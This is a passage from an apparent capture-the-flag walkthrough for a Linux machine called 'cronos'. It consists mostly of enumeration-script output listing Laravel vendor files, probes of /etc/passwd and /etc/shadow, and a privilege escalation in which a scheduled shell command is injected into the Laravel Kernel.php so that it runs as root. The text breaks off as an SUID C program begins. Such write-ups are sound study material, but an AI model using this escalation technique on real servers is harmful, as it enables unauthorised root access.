-rw-r--r-- 1 www-data www-data    0 Mar 21  2017 empty.json
-rw-r--r-- 1 www-data www-data    0 Mar 21  2017 empty.mo
-rw-r--r-- 1 www-data www-data    0 Mar 21  2017 empty.po
-rw-r--r-- 1 www-data www-data    0 Mar 21  2017 empty.xlf
-rw-r--r-- 1 www-data www-data    0 Mar 21  2017 empty.yml
-rw-r--r-- 1 www-data www-data  486 Mar 21  2017 encoding.xlf
-rw-r--r-- 1 www-data www-data  230 Mar 21  2017 escaped-id-plurals.po
-rw-r--r-- 1 www-data www-data  166 Mar 21  2017 escaped-id.po
-rw-r--r-- 1 www-data www-data  124 Mar 21  2017 fuzzy-translations.po
-rw-r--r-- 1 www-data www-data  749 Mar 21  2017 invalid-xml-resources.xlf
-rw-r--r-- 1 www-data www-data   19 Mar 21  2017 malformed.json
-rw-r--r-- 1 www-data www-data   39 Mar 21  2017 messages.yml
-rw-r--r-- 1 www-data www-data   34 Mar 21  2017 messages_linear.yml
-rw-r--r-- 1 www-data www-data  340 Mar 21  2017 non-valid.xlf
-rw-r--r-- 1 www-data www-data    4 Mar 21  2017 non-valid.yml
-rw-r--r-- 1 www-data www-data   74 Mar 21  2017 plurals.mo
-rw-r--r-- 1 www-data www-data   66 Mar 21  2017 plurals.po
-rw-r--r-- 1 www-data www-data  564 Mar 21  2017 resname.xlf
drwxr-xr-x 5 www-data www-data 4.0K Mar 21  2017 resourcebundle
-rw-r--r-- 1 www-data www-data  689 Mar 21  2017 resources-2.0-clean.xlf
-rw-r--r-- 1 www-data www-data  905 Mar 21  2017 resources-2.0.xlf
-rw-r--r-- 1 www-data www-data  919 Mar 21  2017 resources-clean.xlf
-rw-r--r-- 1 www-data www-data  501 Mar 21  2017 resources-target-attributes.xlf
-rw-r--r-- 1 www-data www-data  505 Mar 21  2017 resources-tool-info.xlf
-rw-r--r-- 1 www-data www-data   96 Mar 21  2017 resources.csv
-rw-r--r-- 1 www-data www-data   25 Mar 21  2017 resources.dump.json
-rw-r--r-- 1 www-data www-data   10 Mar 21  2017 resources.ini
-rw-r--r-- 1 www-data www-data   20 Mar 21  2017 resources.json
-rw-r--r-- 1 www-data www-data   52 Mar 21  2017 resources.mo
-rw-r--r-- 1 www-data www-data   43 Mar 21  2017 resources.php
-rw-r--r-- 1 www-data www-data  141 Mar 21  2017 resources.po
-rw-r--r-- 1 www-data www-data  195 Mar 21  2017 resources.ts
-rw-r--r-- 1 www-data www-data  634 Mar 21  2017 resources.xlf
-rw-r--r-- 1 www-data www-data    9 Mar 21  2017 resources.yml
-rw-r--r-- 1 www-data www-data   36 Mar 21  2017 valid.csv
-rw-r--r-- 1 www-data www-data  762 Mar 21  2017 with-attributes.xlf
-rw-r--r-- 1 www-data www-data  362 Mar 21  2017 withdoctype.xlf
-rw-r--r-- 1 www-data www-data  652 Mar 21  2017 withnote.xlf

/var/www/laravel/vendor/symfony/translation/Tests/fixtures/resourcebundle:
total 20K
drwxr-xr-x 5 www-data www-data 4.0K Mar 21  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar 21  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Mar 21  2017 corrupted
drwxr-xr-x 2 www-data www-data 4.0K Mar 21  2017 dat
drwxr-xr-x 2 www-data www-data 4.0K Mar 21  2017 res

/var/www/laravel/vendor/symfony/translation/Tests/fixtures/resourcebundle/corrupted:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Mar 21  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Mar 21  2017 ..
-rw-r--r-- 1 www-data www-data    3 Mar 21  2017 resources.dat

/var/www/laravel/vendor/symfony/translation/Tests/fixtures/resourcebundle/dat:
total 32K
drwxr-xr-x 2 www-data www-data 4.0K Mar 21  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Mar 21  2017 ..
-rw-r--r-- 1 www-data www-data  120 Mar 21  2017 en.res
-rw-r--r-- 1 www-data www-data   37 Mar 21  2017 en.txt
-rw-r--r-- 1 www-data www-data  124 Mar 21  2017 fr.res
-rw-r--r-- 1 www-data www-data   40 Mar 21  2017 fr.txt
-rw-r--r-- 1 www-data www-data   14 Mar 21  2017 packagelist.txt
-rw-r--r-- 1 www-data www-data  352 Mar 21  2017 resources.dat

/var/www/laravel/vendor/symfony/translation/Tests/fixtures/resourcebundle/res:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Mar 21  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Mar 21  2017 ..
-rw-r--r-- 1 www-data www-data   84 Mar 21  2017 en.res

/var/www/laravel/vendor/symfony/translation/Util:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Mar 21  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data 2.9K Mar 21  2017 ArrayConverter.php

/var/www/laravel/vendor/symfony/translation/Writer:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Mar 21  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data 2.6K Mar 21  2017 TranslationWriter.php

/var/www/laravel/vendor/symfony/var-dumper:
total 64K
drwxr-xr-x  9 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 15 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data   34 Mar 12  2017 .gitignore
-rw-r--r--  1 www-data www-data  146 Mar 12  2017 CHANGELOG.md
drwxr-xr-x  2 www-data www-data 4.0K Mar 12  2017 Caster
drwxr-xr-x  2 www-data www-data 4.0K Mar 12  2017 Cloner
drwxr-xr-x  2 www-data www-data 4.0K Mar 12  2017 Dumper
drwxr-xr-x  2 www-data www-data 4.0K Mar 12  2017 Exception
-rw-r--r--  1 www-data www-data 1.1K Mar 12  2017 LICENSE
-rw-r--r--  1 www-data www-data  624 Mar 12  2017 README.md
drwxr-xr-x  3 www-data www-data 4.0K Mar 12  2017 Resources
drwxr-xr-x  2 www-data www-data 4.0K Mar 12  2017 Test
drwxr-xr-x  5 www-data www-data 4.0K Mar 12  2017 Tests
-rw-r--r--  1 www-data www-data 1.2K Mar 12  2017 VarDumper.php
-rw-r--r--  1 www-data www-data 1.1K Mar 12  2017 composer.json
-rw-r--r--  1 www-data www-data  929 Mar 12  2017 phpunit.xml.dist

/var/www/laravel/vendor/symfony/var-dumper/Caster:
total 144K
drwxr-xr-x 2 www-data www-data 4.0K Mar 12  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 6.6K Mar 12  2017 AmqpCaster.php
-rw-r--r-- 1 www-data www-data 2.3K Mar 12  2017 ArgsStub.php
-rw-r--r-- 1 www-data www-data 4.8K Mar 12  2017 Caster.php
-rw-r--r-- 1 www-data www-data 2.7K Mar 12  2017 ClassStub.php
-rw-r--r-- 1 www-data www-data  665 Mar 12  2017 ConstStub.php
-rw-r--r-- 1 www-data www-data  695 Mar 12  2017 CutArrayStub.php
-rw-r--r-- 1 www-data www-data 1.8K Mar 12  2017 CutStub.php
-rw-r--r-- 1 www-data www-data 9.9K Mar 12  2017 DOMCaster.php
-rw-r--r-- 1 www-data www-data 1.7K Mar 12  2017 DoctrineCaster.php
-rw-r--r-- 1 www-data www-data  632 Mar 12  2017 EnumStub.php
-rw-r--r-- 1 www-data www-data  12K Mar 12  2017 ExceptionCaster.php
-rw-r--r-- 1 www-data www-data  730 Mar 12  2017 FrameStub.php
-rw-r--r-- 1 www-data www-data 1.4K Mar 12  2017 LinkStub.php
-rw-r--r-- 1 www-data www-data  827 Mar 12  2017 MongoCaster.php
-rw-r--r-- 1 www-data www-data 3.5K Mar 12  2017 PdoCaster.php
-rw-r--r-- 1 www-data www-data 5.4K Mar 12  2017 PgSqlCaster.php
-rw-r--r-- 1 www-data www-data 2.5K Mar 12  2017 RedisCaster.php
-rw-r--r-- 1 www-data www-data  12K Mar 12  2017 ReflectionCaster.php
-rw-r--r-- 1 www-data www-data 1.8K Mar 12  2017 ResourceCaster.php
-rw-r--r-- 1 www-data www-data 6.4K Mar 12  2017 SplCaster.php
-rw-r--r-- 1 www-data www-data 2.1K Mar 12  2017 StubCaster.php
-rw-r--r-- 1 www-data www-data  946 Mar 12  2017 TraceStub.php
-rw-r--r-- 1 www-data www-data 3.0K Mar 12  2017 XmlReaderCaster.php
-rw-r--r-- 1 www-data www-data 2.5K Mar 12  2017 XmlResourceCaster.php

/var/www/laravel/vendor/symfony/var-dumper/Cloner:
total 68K
drwxr-xr-x 2 www-data www-data 4.0K Mar 12  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  15K Mar 12  2017 AbstractCloner.php
-rw-r--r-- 1 www-data www-data  572 Mar 12  2017 ClonerInterface.php
-rw-r--r-- 1 www-data www-data 1.0K Mar 12  2017 Cursor.php
-rw-r--r-- 1 www-data www-data 8.9K Mar 12  2017 Data.php
-rw-r--r-- 1 www-data www-data 2.0K Mar 12  2017 DumperInterface.php
-rw-r--r-- 1 www-data www-data  913 Mar 12  2017 Stub.php
-rw-r--r-- 1 www-data www-data  15K Mar 12  2017 VarCloner.php

/var/www/laravel/vendor/symfony/var-dumper/Dumper:
total 60K
drwxr-xr-x 2 www-data www-data 4.0K Mar 12  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 5.7K Mar 12  2017 AbstractDumper.php
-rw-r--r-- 1 www-data www-data  17K Mar 12  2017 CliDumper.php
-rw-r--r-- 1 www-data www-data  595 Mar 12  2017 DataDumperInterface.php
-rw-r--r-- 1 www-data www-data  18K Mar 12  2017 HtmlDumper.php

/var/www/laravel/vendor/symfony/var-dumper/Exception:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Mar 12  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  654 Mar 12  2017 ThrowingCasterException.php

/var/www/laravel/vendor/symfony/var-dumper/Resources:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Mar 12  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Mar 12  2017 functions

/var/www/laravel/vendor/symfony/var-dumper/Resources/functions:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Mar 12  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar 12  2017 ..
-rw-r--r-- 1 www-data www-data  503 Mar 12  2017 dump.php

/var/www/laravel/vendor/symfony/var-dumper/Test:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Mar 12  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 1.4K Mar 12  2017 VarDumperTestTrait.php

/var/www/laravel/vendor/symfony/var-dumper/Tests:
total 52K
drwxr-xr-x 5 www-data www-data 4.0K Mar 12  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Mar 12  2017 Caster
-rw-r--r-- 1 www-data www-data  11K Mar 12  2017 CliDumperTest.php
drwxr-xr-x 2 www-data www-data 4.0K Mar 12  2017 Fixtures
-rw-r--r-- 1 www-data www-data 7.9K Mar 12  2017 HtmlDumperTest.php
drwxr-xr-x 2 www-data www-data 4.0K Mar 12  2017 Test
-rw-r--r-- 1 www-data www-data 8.1K Mar 12  2017 VarClonerTest.php

/var/www/laravel/vendor/symfony/var-dumper/Tests/Caster:
total 60K
drwxr-xr-x 2 www-data www-data 4.0K Mar 12  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Mar 12  2017 ..
-rw-r--r-- 1 www-data www-data 4.9K Mar 12  2017 CasterTest.php
-rw-r--r-- 1 www-data www-data 5.8K Mar 12  2017 ExceptionCasterTest.php
-rw-r--r-- 1 www-data www-data 1.8K Mar 12  2017 PdoCasterTest.php
-rw-r--r-- 1 www-data www-data 1.6K Mar 12  2017 RedisCasterTest.php
-rw-r--r-- 1 www-data www-data 4.9K Mar 12  2017 ReflectionCasterTest.php
-rw-r--r-- 1 www-data www-data 3.4K Mar 12  2017 SplCasterTest.php
-rw-r--r-- 1 www-data www-data 4.9K Mar 12  2017 StubCasterTest.php
-rw-r--r-- 1 www-data www-data 4.3K Mar 12  2017 XmlReaderCasterTest.php

/var/www/laravel/vendor/symfony/var-dumper/Tests/Fixtures:
total 32K
drwxr-xr-x 2 www-data www-data 4.0K Mar 12  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Mar 12  2017 ..
-rw-r--r-- 1 www-data www-data  146 Mar 12  2017 FooInterface.php
-rw-r--r-- 1 www-data www-data  270 Mar 12  2017 GeneratorDemo.php
-rw-r--r-- 1 www-data www-data  114 Mar 12  2017 NotLoadableClass.php
-rw-r--r-- 1 www-data www-data  840 Mar 12  2017 Twig.php
-rw-r--r-- 1 www-data www-data  817 Mar 12  2017 dumb-var.php
-rw-r--r-- 1 www-data www-data  223 Mar 12  2017 xml_reader.xml

/var/www/laravel/vendor/symfony/var-dumper/Tests/Test:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Mar 12  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Mar 12  2017 ..
-rw-r--r-- 1 www-data www-data  934 Mar 12  2017 VarDumperTestTraitTest.php

/var/www/laravel/vendor/symfony/yaml:
total 124K
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 15 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data   34 Mar 20  2017 .gitignore
-rw-r--r--  1 www-data www-data 2.2K Mar 20  2017 CHANGELOG.md
drwxr-xr-x  2 www-data www-data 4.0K Mar 20  2017 Command
-rw-r--r--  1 www-data www-data 3.8K Mar 20  2017 Dumper.php
-rw-r--r--  1 www-data www-data 3.8K Mar 20  2017 Escaper.php
drwxr-xr-x  2 www-data www-data 4.0K Mar 20  2017 Exception
-rw-r--r--  1 www-data www-data  28K Mar 20  2017 Inline.php
-rw-r--r--  1 www-data www-data 1.1K Mar 20  2017 LICENSE
-rw-r--r--  1 www-data www-data  34K Mar 20  2017 Parser.php
-rw-r--r--  1 www-data www-data  463 Mar 20  2017 README.md
drwxr-xr-x  4 www-data www-data 4.0K Mar 20  2017 Tests
-rw-r--r--  1 www-data www-data 3.9K Mar 20  2017 Unescaper.php
-rw-r--r--  1 www-data www-data 4.0K Mar 20  2017 Yaml.php
-rw-r--r--  1 www-data www-data  918 Mar 20  2017 composer.json
-rw-r--r--  1 www-data www-data  773 Mar 20  2017 phpunit.xml.dist

/var/www/laravel/vendor/symfony/yaml/Command:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Mar 20  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 6.9K Mar 20  2017 LintCommand.php

/var/www/laravel/vendor/symfony/yaml/Exception:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Mar 20  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  455 Mar 20  2017 DumpException.php
-rw-r--r-- 1 www-data www-data  443 Mar 20  2017 ExceptionInterface.php
-rw-r--r-- 1 www-data www-data 3.4K Mar 20  2017 ParseException.php
-rw-r--r-- 1 www-data www-data  485 Mar 20  2017 RuntimeException.php

/var/www/laravel/vendor/symfony/yaml/Tests:
total 104K
drwxr-xr-x 4 www-data www-data 4.0K Mar 20  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Mar 20  2017 Command
-rw-r--r-- 1 www-data www-data  11K Mar 20  2017 DumperTest.php
drwxr-xr-x 2 www-data www-data 4.0K Mar 20  2017 Fixtures
-rw-r--r-- 1 www-data www-data  29K Mar 20  2017 InlineTest.php
-rw-r--r-- 1 www-data www-data 1.1K Mar 20  2017 ParseExceptionTest.php
-rw-r--r-- 1 www-data www-data  34K Mar 20  2017 ParserTest.php
-rw-r--r-- 1 www-data www-data 1.2K Mar 20  2017 YamlTest.php

/var/www/laravel/vendor/symfony/yaml/Tests/Command:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Mar 20  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Mar 20  2017 ..
-rw-r--r-- 1 www-data www-data 2.9K Mar 20  2017 LintCommandTest.php

/var/www/laravel/vendor/symfony/yaml/Tests/Fixtures:
total 144K
drwxr-xr-x 2 www-data www-data 4.0K Mar 20  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Mar 20  2017 ..
-rw-r--r-- 1 www-data www-data  859 Mar 20  2017 YtsAnchorAlias.yml
-rw-r--r-- 1 www-data www-data 4.3K Mar 20  2017 YtsBasicTests.yml
-rw-r--r-- 1 www-data www-data  919 Mar 20  2017 YtsBlockMapping.yml
-rw-r--r-- 1 www-data www-data 1.5K Mar 20  2017 YtsDocumentSeparator.yml
-rw-r--r-- 1 www-data www-data  625 Mar 20  2017 YtsErrorTests.yml
-rw-r--r-- 1 www-data www-data 1.6K Mar 20  2017 YtsFlowCollections.yml
-rw-r--r-- 1 www-data www-data 3.9K Mar 20  2017 YtsFoldedScalars.yml
-rw-r--r-- 1 www-data www-data  683 Mar 20  2017 YtsNullsAndEmpties.yml
-rw-r--r-- 1 www-data www-data  41K Mar 20  2017 YtsSpecificationExamples.yml
-rw-r--r-- 1 www-data www-data 7.5K Mar 20  2017 YtsTypeTransfers.yml
-rw-r--r-- 1 www-data www-data  185 Mar 20  2017 arrow.gif
-rw-r--r-- 1 www-data www-data   31 Mar 20  2017 embededPhp.yml
-rw-r--r-- 1 www-data www-data 2.2K Mar 20  2017 escapedCharacters.yml
-rw-r--r-- 1 www-data www-data  312 Mar 20  2017 index.yml
-rw-r--r-- 1 www-data www-data  306 Mar 20  2017 multiple_lines_as_literal_block.yml
-rw-r--r-- 1 www-data www-data 1.7K Mar 20  2017 sfComments.yml
-rw-r--r-- 1 www-data www-data 2.9K Mar 20  2017 sfCompact.yml
-rw-r--r-- 1 www-data www-data 1.8K Mar 20  2017 sfMergeKey.yml
-rw-r--r-- 1 www-data www-data  284 Mar 20  2017 sfObjects.yml
-rw-r--r-- 1 www-data www-data  743 Mar 20  2017 sfQuotes.yml
-rw-r--r-- 1 www-data www-data 2.5K Mar 20  2017 sfTests.yml
-rw-r--r-- 1 www-data www-data 1.8K Mar 20  2017 unindentedCollections.yml

/var/www/laravel/vendor/tijsverkoyen:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 css-to-inline-styles

/var/www/laravel/vendor/tijsverkoyen/css-to-inline-styles:
total 24K
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 1.5K Sep 20  2016 LICENSE.md
-rw-r--r-- 1 www-data www-data  805 Sep 20  2016 composer.json
-rw-r--r-- 1 www-data www-data  575 Sep 20  2016 phpunit.xml.dist
drwxr-xr-x 3 www-data www-data 4.0K Sep 20  2016 src

/var/www/laravel/vendor/tijsverkoyen/css-to-inline-styles/src:
total 20K
drwxr-xr-x 3 www-data www-data 4.0K Sep 20  2016 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 4 www-data www-data 4.0K Sep 20  2016 Css
-rw-r--r-- 1 www-data www-data 7.2K Sep 20  2016 CssToInlineStyles.php

/var/www/laravel/vendor/tijsverkoyen/css-to-inline-styles/src/Css:
total 20K
drwxr-xr-x 4 www-data www-data 4.0K Sep 20  2016 .
drwxr-xr-x 3 www-data www-data 4.0K Sep 20  2016 ..
-rw-r--r-- 1 www-data www-data 1.8K Sep 20  2016 Processor.php
drwxr-xr-x 2 www-data www-data 4.0K Sep 20  2016 Property
drwxr-xr-x 2 www-data www-data 4.0K Sep 20  2016 Rule

/var/www/laravel/vendor/tijsverkoyen/css-to-inline-styles/src/Css/Property:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Sep 20  2016 .
drwxr-xr-x 4 www-data www-data 4.0K Sep 20  2016 ..
-rw-r--r-- 1 www-data www-data 3.1K Sep 20  2016 Processor.php
-rw-r--r-- 1 www-data www-data 1.6K Sep 20  2016 Property.php

/var/www/laravel/vendor/tijsverkoyen/css-to-inline-styles/src/Css/Rule:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Sep 20  2016 .
drwxr-xr-x 4 www-data www-data 4.0K Sep 20  2016 ..
-rw-r--r-- 1 www-data www-data 4.9K Sep 20  2016 Processor.php
-rw-r--r-- 1 www-data www-data 1.4K Sep 20  2016 Rule.php

/var/www/laravel/vendor/vlucas:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 phpdotenv

/var/www/laravel/vendor/vlucas/phpdotenv:
total 20K
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 1.6K Sep  1  2016 LICENSE.txt
-rw-r--r-- 1 www-data www-data  719 Sep  1  2016 composer.json
drwxr-xr-x 3 www-data www-data 4.0K Sep  1  2016 src

/var/www/laravel/vendor/vlucas/phpdotenv/src:
total 32K
drwxr-xr-x 3 www-data www-data 4.0K Sep  1  2016 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 2.0K Sep  1  2016 Dotenv.php
drwxr-xr-x 2 www-data www-data 4.0K Sep  1  2016 Exception
-rw-r--r-- 1 www-data www-data  11K Sep  1  2016 Loader.php
-rw-r--r-- 1 www-data www-data 3.2K Sep  1  2016 Validator.php

/var/www/laravel/vendor/vlucas/phpdotenv/src/Exception:
total 28K
drwxr-xr-x 2 www-data www-data 4.0K Sep  1  2016 .
drwxr-xr-x 3 www-data www-data 4.0K Sep  1  2016 ..
-rw-r--r-- 1 www-data www-data  120 Sep  1  2016 ExceptionInterface.php
-rw-r--r-- 1 www-data www-data  229 Sep  1  2016 InvalidCallbackException.php
-rw-r--r-- 1 www-data www-data  221 Sep  1  2016 InvalidFileException.php
-rw-r--r-- 1 www-data www-data  221 Sep  1  2016 InvalidPathException.php
-rw-r--r-- 1 www-data www-data  202 Sep  1  2016 ValidationException.php

/var/www/laravel/vendor/webmozart:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 assert

/var/www/laravel/vendor/webmozart/assert:
total 64K
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  267 Nov 23  2016 .composer-auth.json
-rw-r--r-- 1 www-data www-data   23 Nov 23  2016 .gitignore
-rw-r--r-- 1 www-data www-data  179 Nov 23  2016 .styleci.yml
-rw-r--r-- 1 www-data www-data 1.1K Nov 23  2016 .travis.yml
-rw-r--r-- 1 www-data www-data  658 Nov 23  2016 CHANGELOG.md
-rw-r--r-- 1 www-data www-data 1.1K Nov 23  2016 LICENSE
-rw-r--r-- 1 www-data www-data  12K Nov 23  2016 README.md
-rw-r--r-- 1 www-data www-data 1.4K Nov 23  2016 appveyor.yml
-rw-r--r-- 1 www-data www-data  781 Nov 23  2016 composer.json
-rw-r--r-- 1 www-data www-data  446 Nov 23  2016 phpunit.xml.dist
drwxr-xr-x 2 www-data www-data 4.0K Nov 23  2016 src
drwxr-xr-x 2 www-data www-data 4.0K Nov 23  2016 tests

/var/www/laravel/vendor/webmozart/assert/src:
total 40K
drwxr-xr-x 2 www-data www-data 4.0K Nov 23  2016 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  32K Nov 23  2016 Assert.php

/var/www/laravel/vendor/webmozart/assert/tests:
total 32K
drwxr-xr-x 2 www-data www-data 4.0K Nov 23  2016 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  21K Nov 23  2016 AssertTest.php


### INTERESTING FILES ####################################
Useful file locations:
/bin/nc
/bin/netcat
/usr/bin/wget


Can we read/write sensitive files:
-rw-r--r-- 1 root root 1667 Apr  9  2017 /etc/passwd
-rw-r--r-- 1 root root 832 Apr  9  2017 /etc/group
-rw-r--r-- 1 root root 575 Oct 22  2015 /etc/profile
-rw-r----- 1 root shadow 1191 Apr  9  2017 /etc/shadow


Can't search *.conf files as no keyword was entered

Can't search *.log files as no keyword was entered

Can't search *.ini files as no keyword was entered

All *.conf files in /etc (recursive 1 level):
-rw-r--r-- 1 root root 4781 Mar 17  2016 /etc/hdparm.conf
-rw-r--r-- 1 root root 280 Jun 20  2014 /etc/fuse.conf
-rw-r--r-- 1 root root 552 Mar 16  2016 /etc/pam.conf
-rw-r--r-- 1 root root 967 Oct 30  2015 /etc/mke2fs.conf
-rw-r--r-- 1 root root 7788 Mar 22  2017 /etc/ca-certificates.conf
-rw-r--r-- 1 root root 338 Nov 18  2014 /etc/updatedb.conf
-rw-r--r-- 1 root root 100 Nov 25  2015 /etc/sos.conf
-rw-r--r-- 1 root root 1371 Jan 28  2016 /etc/rsyslog.conf
-rw-r--r-- 1 root root 350 Mar 22  2017 /etc/popularity-contest.conf
-rw-r--r-- 1 root root 2084 Sep  6  2015 /etc/sysctl.conf
-rw-r--r-- 1 root root 604 Jul  2  2015 /etc/deluser.conf
-rw-r--r-- 1 root root 2969 Nov 10  2015 /etc/debconf.conf
-rw-r--r-- 1 root root 1260 Mar 16  2016 /etc/ucf.conf
-rw-r--r-- 1 root root 6816 Nov 30  2016 /etc/overlayroot.conf
-rw-r--r-- 1 root root 497 May  4  2014 /etc/nsswitch.conf
-rw-r--r-- 1 root root 3028 Feb 15  2017 /etc/adduser.conf
-rw-r--r-- 1 root root 92 Oct 22  2015 /etc/host.conf
-rw-r--r-- 1 root root 34 Jan 27  2016 /etc/ld.so.conf
-rw-r--r-- 1 root root 191 Jan 19  2016 /etc/libaudit.conf
-rw-r--r-- 1 root root 14867 Apr 12  2016 /etc/ltrace.conf
-rw-r--r-- 1 root root 2584 Feb 18  2016 /etc/gai.conf
-rw-r--r-- 1 root root 703 May  6  2015 /etc/logrotate.conf
-rw-r--r-- 1 root root 771 Mar  6  2015 /etc/insserv.conf
-rw-r--r-- 1 root root 144 Mar 22  2017 /etc/kernel-img.conf


Any interesting mail in /var/mail:
total 8
drwxrwsr-x  2 root mail 4096 Feb 15  2017 .
drwxr-xr-x 14 root root 4096 Mar 22  2017 ..


### SCAN COMPLETE ####################################
www-data@cronos:/var/www/admin$
```

###### PrivEsc using laravel scheduled tasks

```sh
www-data@cronos:/dev/shm$ php /var/www/laravel/artisan schedule:run
No scheduled commands are ready to run.
www-data@cronos:/dev/shm$
```


```
https://laravel.com/docs/5.0/artisan#scheduling-artisan-commands
```


```
https://www.easylaravelbook.com/blog/introducing-the-laravel-5-command-scheduler/
```


```sh
www-data@cronos:/dev/shm$ find / -name Kernel.php 2>/dev/null
/var/www/laravel/app/Console/Kernel.php
/var/www/laravel/app/Http/Kernel.php
/var/www/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Console/Kernel.php
/var/www/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Http/Kernel.php
/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Console/Kernel.php
/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Http/Kernel.php
/var/www/laravel/vendor/symfony/http-kernel/Kernel.php
www-data@cronos:/dev/shm$
```

```sh
www-data@cronos:/dev/shm$ vi /var/www/laravel/app/Console/Kernel.php
```

```php
<?php

namespace App\Console;

use Illuminate\Console\Scheduling\Schedule;
use Illuminate\Foundation\Console\Kernel as ConsoleKernel;

class Kernel extends ConsoleKernel
{
    /**
     * The Artisan commands provided by your application.
     *
     * @var array
     */
    protected $commands = [
        //
    ];

    /**
     * Define the application's command schedule.
     *
     * @param  \Illuminate\Console\Scheduling\Schedule  $schedule
     * @return void
     */
    protected function schedule(Schedule $schedule)
    {
        $schedule->exec('touch /tmp/kan1shka')->everyMinute();
        // $schedule->command('inspire')
        //          ->hourly();
    }

    /**
     * Register the Closure based commands for the application.
     *
     * @return void
     */
    protected function commands()
    {
        require base_path('routes/console.php');
    }
}
```


```sh
www-data@cronos:/dev/shm$ date
Sat Jan 27 20:10:26 EET 2018
www-data@cronos:/dev/shm$ ls -l /tmp/kan1shka
ls: cannot access '/tmp/kan1shka': No such file or directory
www-data@cronos:/dev/shm$ date
Sat Jan 27 20:11:28 EET 2018
www-data@cronos:/dev/shm$ ls -l /tmp/kan1shka
-rw-r--r-- 1 root root 0 Jan 27 20:11 /tmp/kan1shka
www-data@cronos:/dev/shm$
```

```sh
www-data@cronos:/dev/shm$ uname -a
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
www-data@cronos:/dev/shm$ gcc
The program 'gcc' is currently not installed. To run 'gcc' please ask your administrator to install the package 'gcc'
www-data@cronos:/dev/shm$
```

[``SUID Binary``](https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/#suid-binary)

```sh
l64@l64-virtual-machine:~/Desktop$ cat suid.c 
int main(void){
